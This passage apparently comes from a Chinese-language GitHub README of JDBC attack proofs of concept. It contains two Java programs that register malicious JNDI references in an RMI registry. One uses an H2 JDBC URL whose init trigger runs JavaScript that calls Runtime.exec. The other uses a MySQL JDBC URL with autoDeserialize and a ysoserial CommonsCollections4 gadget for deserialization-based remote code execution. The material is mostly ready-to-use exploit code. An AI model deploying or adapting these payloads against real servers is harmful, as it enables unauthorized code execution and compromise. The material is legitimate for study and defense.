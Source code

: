 ###### JDBC attack's H2_JavaScript poc

条件

1. h2数据库依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String javaScript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"calc\")";
    String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javaScript +"'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```

同样除了h2数据库，仍然还有Mysql/DB2/Sqlite等等可以进行操作

###### Mysql_statementInterceptors poc

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "com.mysql.jdbc.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```

![image-20220808133317219](README/image-20220808133317219.png)
